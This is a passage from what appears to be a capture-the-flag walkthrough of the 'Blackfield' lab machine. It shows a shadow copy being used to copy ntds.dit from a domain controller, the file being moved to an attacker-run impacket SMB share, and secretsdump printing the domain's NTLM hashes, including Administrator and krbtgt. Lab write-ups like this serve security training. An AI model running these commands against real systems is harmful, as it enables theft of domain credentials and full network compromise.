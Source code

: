 ```bash
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/22/2025 1:19:20 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %bak% z:
-> %bak% = {b22c05b6-71f1-4d45-b43a-e019b2ebee0a}
The shadow copy was successfully exposed as z:\.
->
->
```

We can see w have sucessfully shadow copt the and exposed as z, now lets copy the file using robocopy and then get the hashes from it.

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

```bash
C:\temp> ls

    Directory: C:\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/22/2025   1:19 PM            625 2025-09-22_13-19-20_DC01.cab
-a----        9/22/2025   1:19 PM             86 bak.dsh
-a----        9/21/2025  10:09 AM       18874368 ntds.dit
```

and now we have our ntds.dit file let’s move this file to out machine over, we can start a smb server on our machine using

```bash
impacket-smbserver share . -smb2support
```

We can now move our ntds.dit file to smb server 

```bash
move ntds.dit //10.10.16.21/share
```

### Extracting hashes from NTDS.DIT

```bash
impacket-secretsdump -ntds ntds.dit -system system local       
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```